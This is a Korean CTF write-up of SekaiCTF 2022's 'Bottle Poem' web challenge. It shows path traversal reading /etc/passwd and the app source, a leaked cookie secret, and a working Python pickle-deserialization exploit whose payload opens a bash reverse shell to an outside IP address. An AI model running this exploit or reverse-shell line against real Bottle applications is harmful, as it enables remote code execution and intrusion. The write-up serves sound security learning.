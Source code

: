 ```yaml
---
title: "[SekaiCTF 2022] Bottle Poem"
date: 2022-10-03 18:28:00 +09:00
author: aestera
categories: [CTF, Writeup]
tags: [Writeup]
---
```


# Bottle Poem


![Untitled](/assets/img/post_images/Bottle_Poem/main.png)
SekaiCTF의 첫번째 Web문제이자 1단계 문제였지만.. 엄청나게 삽질했다
<br><br>

![Untitled](/assets/img/post_images/Bottle_Poem/read.png)

문제의 메인 페이지이다. 하이퍼링크를 클릭해보면
<br><br>

![Untitled](/assets/img/post_images/Bottle_Poem/poem.png)

이렇게 시가 보인다. URL의 id라는 인자로 ```/etc/passwd```를 얻는데 성공했지만 FLAG는 없었다. 문제 설명을 다시 보면 FLAG는 서버에 실행 파일로 존재한다고 적혀있다. 즉 이런 방식으로는 플래그를 획득할 수 없다. RCE를 해야 할 것 같다.
<br>

```/proc/self/cmdline``` 경로에 들어가서 프로세스가 실행된 방식을 파악해 app.py의 경로를 찾았다.

***python3 -u /app/app.py***
```python
#app.py
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```
app.py의 코드이다. 몰랐던 경로인 /sign이 있다.
<br>

![Untitled](/assets/img/post_images/Bottle_Poem/sign.png)

접속해보면 이러한 문구가 뜨고 아무 일도 일어나지 않는다. 현재 조작할 수 있는 유일한 값인 Cookie를 이용해야 할 것 같다.
<br><br>


![Untitled](/assets/img/post_images/Bottle_Poem/bottle.png)

[Bottle Documentation](https://bottlepy.org/docs/dev/bottle-docs.pdf)<br>
Bottle framework Docmentation 16페이지를 보면 Bottle의 쿠키들은 자동적으로 pickle로 직렬화되고 역직렬화된다는 것을 알 수 있다. ***pickle 역직렬화 취약점***을 이용하여 Cookie값을 잘 조작해 리버스 쉘을 딸 수 있을 것 같다.
<br><br>

***/app/config/secret.py***
![Untitled](/assets/img/post_images/Bottle_Poem/secret.png)

먼저 쿠키를 내맘대로 만들기 위해 경로를 확인해 sekai값을 알아냈다.
<br><br>

****

# Exploit

```python
import  os
from  bottle  import *
import  requests
sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
url = "http://bottle-poem.ctf.sekai.team/sign"

class RCE:
  def  __reduce__(self):
    cmd = ("bash -c 'exec bash -i &>/dev/tcp/43.200.117.188/56501 <&1'")
    return  os.system, (cmd,)

response.set_cookie("name", RCE(), secret=sekai)
payload = str(response)
payload = payload.replace("Content-Type: text/html; charset=UTF-8\nSet-Cookie: name=", '')
payload = payload.strip()
payload_send = {"name":f'{payload}'}
print("[+] Sending %s" % payload_send)
send_exploit = requests.get(url, cookies=payload_send)
```
위 스크립트를 실행시켜 revers shell을 획득해 flag를 실행시켰다.
<br><br>
![Untitled](/assets/img/post_images/Bottle_Poem/flag.png)
<br><br>

***SEKAI{W3lcome_To_Our_Bottle}***